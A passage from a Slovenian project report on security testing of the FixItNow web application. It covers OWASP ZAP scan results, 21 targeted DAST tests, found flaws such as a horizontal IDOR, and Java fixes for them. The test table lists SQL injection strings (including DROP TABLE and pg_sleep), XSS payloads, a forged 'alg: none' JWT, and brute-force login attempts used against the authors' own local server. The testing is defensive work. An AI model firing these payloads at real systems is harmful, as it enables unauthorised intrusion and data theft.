    return f"{parts[0]}.{new_payload}.{parts[2]}"

# Primer preverjanja Horizontalnega IDOR (SEC-03.4): Stranka B poskuša prebrati zahtevek Stranke A
st, body, _, dur = http_request("GET", f"/api/tickets/{victim_ticket_id}", headers=auth_b)
leaked = (st == 200 and "Zaupni podatki stranke A" in body)
record(
    "SEC-03.4", "SEC-03",
    f"Horizontalni IDOR: Stranka B bere tuj zahtevek GET /api/tickets/{victim_ticket_id}",
    "GET", f"/api/tickets/{victim_ticket_id}", st, dur, "403 Forbidden (dostop samo lastniku/izvajalcu)",
    st in (403, 404) and not leaked, "High",
    f"RANLJIVOST ODKRITA: Stranka B prejme HTTP {st} in celotno vsebino tujega zahtevka ter bančne podatke!"
)
```

---

## 9. Rezultati izvedenega varnostnega testiranja (Jan Mrkonjič – OWASP ZAP & DAST)

Varnostno testiranje smo izvedli v dveh komplementarnih fazah nad lokalno zagnanim sistemom FixItNow (`http://localhost:8080` in `backend_postgres`):
1. **Izvedba 1:** Avtomatizirano skeniranje z uradnim orodjem **OWASP ZAP `2.17.0`** (*Automation Framework*, 68 pravil pasivnega in aktivnega pregleda nad 13 odkritimi URL-ji).
2. **Izvedba 2:** Izvedba **21 ciljno usmerjenih DAST napadov** na poslovno logiko, avtentikacijo in kontrolo dostopa s skripto `naloga4/fixitnow_security_test.py`.

---

### 9.1 Izvedba 1: Rezultati skeniranja z orodjem OWASP ZAP 2.17.0 (`zap_report.json`)

Skener **OWASP ZAP 2.17.0** je s pajkom (*Spider*) preiskal javno dostopne končne točke in vmesnik Swagger UI (`13 URL-jev`) ter preveril **68 varnostnih pravil**. Od tega je bilo **60 pravil uspešno prestanih (`PASS` – 88,2 %)**, pri **8 pravilih (`WARN-NEW` – 11,8 %)** pa je skener zaznal varnostna opozorila (skupaj 10 posameznih kategorij opozoril v `zap_report.json`):



#### Tabelarični pregled zaznanih opozoril skenerja OWASP ZAP 2.17.0

| Koda pravila (Plugin ID) | Stopnja tveganja (Confidence) | Naziv opozorila v OWASP ZAP | CWE / OWASP Top 10 | Št. pojavitev | Prizadeta končna točka in dokaz (*Evidence*) |
| :---: | :---: | :--- | :---: | :---: | :--- |
| **`[10003]`** | 🔴 **High** *(Medium)* | **Vulnerable JS Library (Powered by Retire.js)** | `CWE-1395`<br>*A06:2021* | 1 | `GET /swagger-ui/swagger-ui-bundle.js` vsebuje zastarelo knjižnico **`DOMPurify 3.1.4`**, ranljivo za več XSS obvozov (`CVE-2025-26791`, `GHSA-vhxf-7vqr-mrjg`). |
| **`[10038]`** | 🟠 **Medium** *(High)* | **Content Security Policy (CSP) Header Not Set** | `CWE-693`<br>*A05:2021* | 1 | `GET /swagger-ui/index.html` – odgovor strežnika ne vsebuje varnostne glave `Content-Security-Policy`. |
| **`[90022]`** | 🟡 **Low** *(Medium)* | **Application Error Disclosure** | `CWE-550`<br>*A05:2021* | 1 | `GET /swagger-ui` in `GET /v3/api-docs` vrneta **`HTTP/1.1 500 Internal Server Error`** zaradi nezdružljivosti med Spring Boot `3.5.14` in `springdoc-openapi:2.6.0`. |
| **`[90004]`** | 🟡 **Low** *(Medium)* | **Cross-Origin-Resource / Embedder / Opener-Policy Header Missing** | `CWE-693`<br>*A05:2021* | 7 | `GET /api/v1/providers/search` in `/swagger-ui/*` – manjkajo glave `Cross-Origin-Resource-Policy` (`CORP`), `COEP` in `COOP` proti napadom stranskih kanalov (*Spectre*). |
| **`[10063]`** | 🟡 **Low** *(Medium)* | **Permissions Policy Header Not Set** | `CWE-693`<br>*A05:2021* | 4 | `GET /swagger-ui/index.html` – manjka glava `Permissions-Policy` za omejitev dostopa do brskalniških senzorjev (lokacija, kamera, mikrofon). |
| **`[10096]`** | 🟡 **Low** *(Medium)* | **Timestamp Disclosure – Unix** | `CWE-200`<br>*A01:2021* | 5 | `GET /swagger-ui/swagger-ui-standalone-preset.js` – prisotnost Unix časovnih žigov v odgovorih. |
| **`[10049]`** | 🔵 **Informational** | **Non-Storable Content** | `CWE-524` | 5 | `Cache-Control: no-cache, no-store, max-age=0, must-revalidate` – Spring Security pravilno preprečuje predpomnjenje občutljivih API odgovorov. |
| **`[10109]`** | 🔵 **Informational** | **Modern Web Application** | — | 1 | Zaznana sodobna enostranska spletna arhitektura (SPA / JavaScript). |

---

### 9.2 Izvedba 2: Rezultati 21 ciljno usmerjenih DAST testov (`fixitnow_security_test.py`)

V drugi fazi smo zagnali skripto `naloga4/fixitnow_security_test.py`, ki je v **6,04 sekunde** izvedla **21 specializiranih varnostnih testov** v sklopih `SEC-01` do `SEC-05`. Od 21 testov jih je **13 uspelo (`PASSED` – 61,9 %)**, pri **8 testih (38,1 %)** pa je skripta odkrila dejanske varnostne ranljivosti v izvorni kodi zaledja (**1 visoko tveganje – High**, **3 srednja tveganja – Medium** in **4 nizka tveganja – Low**):



#### Celovita tabela izmerjenih rezultatov po testnih primerih (`SEC-01.1` do `SEC-05.4`)

| ID testa | Sklop | Metoda in končna točka | Preverjani varnostni scenarij / Vektor napada | Dejanski HTTP status | Čas (`ms`) | Pričakovani odziv | Status in ugotovitev |
| :---: | :---: | :--- | :--- | :---: | :---: | :--- | :---: |
| **`SEC-01.1`** | `SEC-01` | `GET /api/v1/providers/search` | SQLi Boolean tautologija (`query=' OR '1'='1`) | `200 OK` | 29,5 ms | `200 OK` (0 zadetkov) | **PASSED** ✓ |
| **`SEC-01.2`** | `SEC-01` | `GET /api/v1/providers/search` | SQLi `UNION SELECT null,email,password...` | `200 OK` | 31,6 ms | `200 OK` (0 zadetkov) | **PASSED** ✓ |
| **`SEC-01.3`** | `SEC-01` | `GET /api/v1/providers/search` | SQLi Stacked Query (`'; DROP TABLE tickets;--`) | `200 OK` | 29,7 ms | `200 OK` (brez izbrisa) | **PASSED** ✓ |
| **`SEC-01.4`** | `SEC-01` | `GET /api/v1/providers/search` | Time-based Blind SQLi (`pg_sleep(5)`) | `200 OK` | **33,2 ms** | `< 500 ms` (brez spanja) | **PASSED** ✓ |
| **`SEC-01.5`** | `SEC-01` | `POST /api/v1/auth/login` | SQLi avtentikacijski obvoz v polju `email` | `400 Bad Request` | 22,6 ms | `400` / `401` | **PASSED** ✓ |
| **`SEC-01.6`** | `SEC-01` | `GET /api/v1/providers/search` | Parameter Fuzzing (`categories=INVALID_ENUM_SQL'`) | `400 Bad Request` | 16,3 ms | `400` (brez Stack Trace) | **PASSED** ✓ |
| **`SEC-02.1`** | `SEC-02` | `POST /api/tickets` | Stored XSS `<script>fetch(...)</script>` v opisu zahtevka | `201 Created` | 34,3 ms | JSON + `nosniff` glava | **PASSED** ✓ |
| **`SEC-02.2`** | `SEC-02` | `PATCH /api/v1/users/me` | Vnos `<svg/onload=alert(1)>` v polje `firstName` | **`200 OK`** | 36,7 ms | `400 Bad Request` | 🟡 **RANLJIVOST (Low)** |
| **`SEC-03.1`** | `SEC-03` | `GET /api/tickets` | Nepooblaščen klic brez glave `Authorization` | `403 Forbidden` | 17,6 ms | `401` / `403` | **PASSED** ✓ |
| **`SEC-03.2`** | `SEC-03` | `GET /api/v1/admin/users` | Ponarejen nepodpisan JWT žeton (`alg: none`, `ADMIN`) | `403 Forbidden` | 2,0 ms | `401` / `403` | **PASSED** ✓ |
| **`SEC-03.3`** | `SEC-03` | `GET /api/v1/admin/users` | Manipuliran JWT payload (`role: ADMIN`, neveljaven podpis) | `403 Forbidden` | 15,3 ms | `401` / `403` | **PASSED** ✓ |
| **`SEC-03.4`** | `SEC-03` | `GET /api/tickets/1` | **Horizontalni IDOR:** Stranka B bere tuj zahtevek Stranke A | **`200 OK`** | 19,9 ms | `403 Forbidden` | 🔴 **RANLJIVOST (High)** |
| **`SEC-03.5`** | `SEC-03` | `POST /api/tickets/1/cancel` | **Horizontalni IDOR:** Stranka B kliče preklic tujega zahtevka | **`500 Error`** | 35,4 ms | `403 Forbidden` | 🟡 **RANLJIVOST (Low)** |
| **`SEC-03.6`** | `SEC-03` | `GET /api/v1/admin/users` | **Vertikalna eskalacija:** `CUSTOMER` kliče skrbniški endpoint | **`500 Error`** | 28,1 ms | `403 Forbidden` | 🟡 **RANLJIVOST (Low)** |
| **`SEC-03.7`** | `SEC-03` | `GET /api/tickets/nearby` | **Vertikalna eskalacija:** `CUSTOMER` kliče izvajalski endpoint | **`200 OK`** | 45,5 ms | `403 Forbidden` | 🟠 **RANLJIVOST (Medium)** |
| **`SEC-04.1`** | `SEC-04` | `POST /api/v1/auth/login` | **Brute-Force napad:** 20 zaporednih napačnih prijav | **`20× 401`** | 4.957,9 ms | `429 Too Many Requests` | 🟠 **RANLJIVOST (Medium)** |
| **`SEC-04.2`** | `SEC-04` | `POST /api/v1/auth/forgot-password` | Preverjanje naštevanja uporabnikov (*User Enumeration*) | `200 OK` | 18,0 ms | Identičen odgovor `200` | **PASSED** ✓ |
| **`SEC-05.1`** | `SEC-05` | `GET /api/v1/public/stats` | Prisotnost glav `X-Content-Type-Options` in `X-Frame-Options` | `200 OK` | 41,4 ms | `nosniff` + `DENY` | **PASSED** ✓ |
| **`SEC-05.2`** | `SEC-05` | `GET /api/v1/public/stats` | Prisotnost varnostne glave `Content-Security-Policy` (CSP) | **`200 OK`** | 41,4 ms | Nastavljena glava `CSP` | 🟠 **RANLJIVOST (Medium)** |
| **`SEC-05.3`** | `SEC-05` | `OPTIONS /api/v1/public/stats` | CORS preflight napad z domene `https://evil-attacker.example.com` | `403 Forbidden` | 1,8 ms | `403` (brez `ACAO` glave) | **PASSED** ✓ |
| **`SEC-05.4`** | `SEC-05` | `GET /swagger-ui/index.html` | Javna izpostavljenost Swagger UI vmesnika brez avtentikacije | **`200 OK`** | 7,6 ms | `401` / `403` v produkciji | 🟡 **RANLJIVOST (Low)** |

---

### 9.3 Zbirni pregled izpolnjevanja varnostnih kriterijev uspešnosti (*Security Gate*)

| Varnostni sklop | Št. testov | Uspešni (`PASSED`) | Odkrite ranljivosti | Presoja sklopa | Povzetek stanja v sistemu FixItNow |
| :--- | :---: | :---: | :---: | :---: | :--- |
| **`SEC-01`: SQL Injection & Fuzzing** | 6 | **6 / 6 (100 %)** | 0 | **PASSED ✓** | Popolna zaščita pred vsemi vrstami SQLi zaradi parametriziranih poizvedb JPA Criteria API (`ProviderSpecification.java`). |
| **`SEC-02`: XSS & HTML sanitizacija** | 2 | **1 / 2 (50 %)** | 1 *(Low)* | **DELNO ⚠** | API vrača `application/json` + `nosniff` in React ubeži izpis, vendar zaledje dovoli shranjevanje surovih HTML značk (`<svg/onload=...>`) v `firstName`. |
| **`SEC-03`: Kontrola dostopa (IDOR & RBAC)** | 7 | **3 / 7 (43 %)** | 4 *(1 High, 1 Med, 2 Low)* | **FAILED ✗** | JWT verifikacija je neprebojna, vendar je odkrit **kritičen Horizontalni IDOR na `GET /api/tickets/{id}`** in manjkajoča avtorizacija na `/api/tickets/nearby`. |
| **`SEC-04`: Avtentikacija & Brute-Force** | 2 | **1 / 2 (50 %)** | 1 *(Medium)* | **DELNO ⚠** | *User Enumeration* je preprečen, vendar na `/api/v1/auth/login` in `/2fa/verify` ni nobenega omejevanja hitrosti (*Rate Limiting*). |
| **`SEC-05`: Varnostne glave, CORS & ZAP** | 4 *(+68 ZAP)* | **2 / 4** *(60/68 ZAP)* | 2 *(+ZAP opozorila)* | **DELNO ⚠** | Stroga CORS politika in prisotni glavi `nosniff` ter `DENY`, vendar manjka glava `CSP`, Swagger UI pa je javno odprt in vsebuje ranljiv `DOMPurify 3.1.4`. |

---

### 9.4 Poglobljena inženirska analiza odkritih ranljivosti v izvorni kodi in priporočeni popravki (*Security Hardening*)

Kombinacija skenerja **OWASP ZAP** in ciljno usmerjenih **DAST testov** se je izkazala za izjemno učinkovito, saj smo v izvorni kodi zaledja FixItNow natančno locirali vzroke za vse odkrite ranljivosti in pripravili konkretne predloge popravkov:

#### 1. 🔴 Kritična ranljivost (`SEC-03.4` – High Risk, CWE-639): Horizontalni IDOR pri branju podrobnosti servisnega zahtevka (`GET /api/tickets/{ticketId}`)
- **Kaj se je zgodilo pri testu:** *Stranka A (`sec.victim.a@mail.si`)* je ustvarila zasebni servisni zahtevek z opisom `"Zaupni podatki stranke A: koda alarma 9482"` in domačim naslovom. Nato je *Stranka B (`sec.attacker.b@mail.si`)* s svojim JWT žetonom poslala zahtevek `GET /api/tickets/1`. Strežnik je v **19,9 ms** vrnil status **`200 OK`** s celotno vsebino zahtevka *Stranke A*, zgodovino stanj in bančnimi podatki izvajalca (IBAN/BIC)! Ker so identifikatorji zahtevkov zaporedna cela števila (`Long`: `1, 2, 3...`), lahko vsak prijavljen uporabnik s preprosto zanko prebere vse zahtevke vseh strank v državi.
- **Vzrok v izvorni kodi (`TicketService.java`, vrstice 215–226):**
  Metoda `getTicketDetails(Long ticketId, UUID requesterId)` sicer prejme `requesterId` prijavljenega uporabnika, vendar ga uporabi le pri pripenjanju telefonske številke, **nikoli pa ne preveri, ali je `requesterId` dejanski lastnik zahtevka (`ticket.getUser().getId()`) ali dodeljeni izvajalec (`ticket.getAssignedServiceProvider().getId()`)**!
- **Priporočeni popravek:**
  V `TicketService.getTicketDetails` je treba takoj po pridobitvi entitete `Ticket` dodati preverjanje lastništva:
  ```java
  boolean isOwner = ticket.getUser() != null && ticket.getUser().getId().equals(requesterId);
  boolean isAssignedProvider = ticket.getAssignedServiceProvider() != null
      && ticket.getAssignedServiceProvider().getId().equals(requesterId);
  if (!isOwner && !isAssignedProvider) {
      throw new AccessDeniedException("You do not have permission to view this ticket.");
  }
  ```

#### 2. 🟠 Srednje tveganje (`SEC-03.7` – Medium Risk, CWE-862): Manjkajoča kontrola vloge na končni točki `GET /api/tickets/nearby`
- **Kaj se je zgodilo pri testu:** Navadna stranka (`role = CUSTOMER`) je poklicala `GET /api/tickets/nearby?latitude=46.5576&longitude=15.6355&radiusKm=25` in prejela status **`200 OK`** s seznamom vseh zahtevkov v okolici.
- **Vzrok v izvorni kodi (`TicketController.java`, vrstica 217):** Medtem ko imajo metode `getProviderTickets`, `getOpenTickets` in `getMatchingOpenTickets` anotacijo `@PreAuthorize("hasRole('PROVIDER')")`, je bila pri metodi `findNearbyTickets` (`@GetMapping("/nearby")`) ta anotacija pozabljena.
- **Priporočeni popravek:** Dodati anotacijo `@PreAuthorize("hasRole('PROVIDER') or hasRole('ADMIN')")` nad metodo `findNearbyTickets` v `TicketController.java`.

#### 3. 🟠 Srednje tveganje (`SEC-04.1` – Medium Risk, CWE-307): Odsotnost zaščite pred Brute-Force napadi na `/api/v1/auth/login` in `/api/v1/auth/2fa/verify`
- **Kaj se je zgodilo pri testu:** Skripta je izvedla 20 zaporednih poskusov prijave z napačnim geslom za isti e-poštni naslov. Vseh 20 klicev je vrnilo `401 Unauthorized` (skupni čas `4.957,9 ms`, tj. ~248 ms na en BCrypt izračun) brez blokade IP naslova ali začasnega zaklepa računa. To napadalcu omogoča tako slovarski napad na gesla kot tudi 6-mestne TOTP kode (`10^6` kombinacij na `/api/v1/auth/2fa/verify`), hkrati pa potrjuje ugotovitev iz Lukovega stresnega testa (poglavje 4.5), da lahko napadalec s poplavo prijav namerno izčrpa procesor (CPU DoS zaradi BCrypt).
- **Priporočeni popravek:** Uvesti filter za omejevanje hitrosti (**Bucket4j** ali **Resilience4j RateLimiter**, npr. največ 5 neuspešnih poskusov prijave v 5 minutah na IP naslov / e-pošto, nato vrnitev `429 Too Many Requests`).

#### 4. 🔴/🟠 Ranljiva knjižnica v Swagger UI (`ZAP [10003]` – High Risk) in manjkajoče varnostne glave (`ZAP [10038]`, `[90004]`, `[10063]` – Medium/Low Risk)
- **Kaj je odkril OWASP ZAP:**
  1. Knjižnica `springdoc-openapi-starter-webmvc-ui:2.6.0` vključuje paket `swagger-ui-bundle.js` z zastarelo knjižnico **`DOMPurify 3.1.4`**, ki ima znane ranljivosti za obvoz XSS zaščite (`CVE-2025-26791`), poleg tega pa je `/swagger-ui/index.html` v `SecurityConfig.java` nastavljen na `permitAll()`, `/v3/api-docs` pa zaradi nezdružljivosti s Spring Boot `3.5.14` vrača `500 Internal Server Error` (`ZAP [90022]`).
  2. V `SecurityConfig.java` niso konfigurirane glave `Content-Security-Policy`, `Permissions-Policy` in `Cross-Origin-Resource-Policy`.
- **Priporočeni popravek:**
  - Nadgraditi `springdoc.version` v `pom.xml` iz `2.6.0` na **`2.8.6+`** (ki je združljiv s Spring Boot `3.5.x` in vsebuje posodobljen `DOMPurify`) ter v produkcijskem profilu (`application-prod.yml`) onemogočiti javni dostop do Swagger UI (`springdoc.swagger-ui.enabled=false`).
  - V `SecurityConfig.java` v verigo `securityFilterChain` dodati konfiguracijo varnostnih glav:
    ```java
    .headers(headers -> headers
        .contentSecurityPolicy(csp -> csp.policyDirectives("default-src 'self'; frame-ancestors 'none';"))
        .permissionsPolicy(pp -> pp.policy("geolocation=(self), camera=(), microphone=()"))
    )
    ```

#### 5. 🟡 Nizko tveganje (`SEC-03.5`, `SEC-03.6` in `ZAP [90022]` – Low Risk, CWE-755): Napačno preslikavanje `AccessDeniedException` v `500 Internal Server Error`
- **Kaj se je zgodilo pri testu:** Ko je *Stranka B* poskusila preklicati tuj zahtevek (`POST /api/tickets/1/cancel`) ali poklicati skrbniški endpoint (`GET /api/v1/admin/users`), je Spring Security pravilno preprečil dejanje in vrgel `AccessDeniedException` / `AuthorizationDeniedException`. Vendar je razred `GlobalExceptionHandler.java` (vrstica 74) to izjemo ujel v splošni `@ExceptionHandler(Exception.class)` in odjemalcu vrnil **`500 Internal Server Error`** (`"An unexpected error occurred."`) namesto standardne kode **`403 Forbidden`**.
- **Priporočeni popravek:** V `GlobalExceptionHandler.java` dodati namenski upravljalnik pred splošnim `Exception.class`:
  ```java
  @ExceptionHandler(org.springframework.security.access.AccessDeniedException.class)
  public ResponseEntity<ErrorResponse> handleAccessDenied(AccessDeniedException ex) {
      return buildResponse(HttpStatus.FORBIDDEN, "Access denied.");
  }
  ```

---

### 9.5 Uporaba orodij umetne inteligence (Jan Mrkonjič)

- **Uporabljeni model:** Gemini 4 Argon (v okolju Antigravity IDE).
- **Obseg uporabe:**
  1. Načrtovanje 5 varnostnih scenarijev (`SEC-01` do `SEC-05`) po metodologiji OWASP Top 10:2021 in priprava avtomatizirane DAST skripte `naloga4/fixitnow_security_test.py`.
  2. Konfiguracija in zagon uradnega skenerja **OWASP ZAP 2.17.0** (`ghcr.io/zaproxy/zaproxy:stable`) prek Docker zabojnika ter razčlenjevanje poročil `naloga4/zap_report.json` in `naloga4/rezultati_varnostni_testi.json`.
  3. Lociranje vzrokov odkritih ranljivosti (IDOR v `TicketService.java`, manjkajoči `@PreAuthorize` v `TicketController.java`, obravnava `AccessDeniedException` v `GlobalExceptionHandler.java`) in oblikovanje priporočil za utrjevanje sistema.
- **Način verifikacije:** Vsi varnostni testi (21 DAST testnih primerov in 68 pravil skenerja OWASP ZAP) so bili dejansko izvedeni nad delujočim lokalnim zalednim strežnikom FixItNow (`http://localhost:8080`) in bazo PostgreSQL, vsi podatki v tabelah in grafičnih prikazih pa izhajajo neposredno iz shranjenih izpisov `naloga4/zap_report.json` in `naloga4/rezultati_varnostni_testi.json`.
